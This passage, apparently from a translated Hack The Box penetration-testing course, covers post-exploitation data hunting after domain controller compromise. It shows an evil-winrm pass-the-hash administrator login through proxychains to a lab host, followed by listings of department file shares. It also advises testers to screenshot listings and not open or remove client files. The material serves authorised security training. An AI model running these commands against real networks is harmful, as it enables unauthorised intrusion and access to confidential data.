 ## Caza de datos/hosts confidenciales

Una vez que hayamos obtenido acceso al controlador de dominio, probablemente podamos acceder a la mayoría de los recursos en el dominio. Si queremos demostrar el impacto para nuestros clientes, un buen lugar para comenzar es volver a las acciones del archivo para ver qué otros tipos de datos podemos ver ahora. Como se discutió en el`Documentation & Reporting`Módulo, debemos asegurarnos de tomar capturas de pantalla que muestran una lista de archivos si encontramos un archivo de archivos particularmente confidencial, y no abrir archivos individuales y tomar capturas de pantalla o eliminar cualquier archivo de la red.

  Después de la explotación

```shell-session
xnoxos@htb[/htb]$ proxychains evil-winrm -i 172.16.8.3 -u administrator -H fd1f7e556xxxxxxxxxxxddbb6e6afa2

ProxyChains-3.1 (http://proxychains.sf.net)

<SNIP>

Evil-WinRM* PS C:\Users\Administrator\desktop> cd c:\

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK

*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022  11:34 AM                Department Shares
d-----        9/15/2018  12:12 AM                PerfLogs
d-r---       12/14/2020   6:43 PM                Program Files
d-----        9/15/2018  12:21 AM                Program Files (x86)
d-r---         6/1/2022  11:07 AM                Users
d-----         6/1/2022  11:10 AM                Windows
```

Volvamos al`Department Shares`Comparta y vea qué más podemos encontrar.

  Después de la explotación

```shell-session
*Evil-WinRM* PS C:\Department Shares> dir

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK


    Directory: C:\Department Shares


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022  11:34 AM                Accounting
d-----         6/1/2022  11:34 AM                Executives
d-----         6/1/2022  11:34 AM                Finance
d-----         6/1/2022  11:33 AM                HR
d-----         6/1/2022  11:33 AM                IT
d-----         6/1/2022  11:33 AM                Marketing
d-----         6/1/2022  11:33 AM                R&D
```
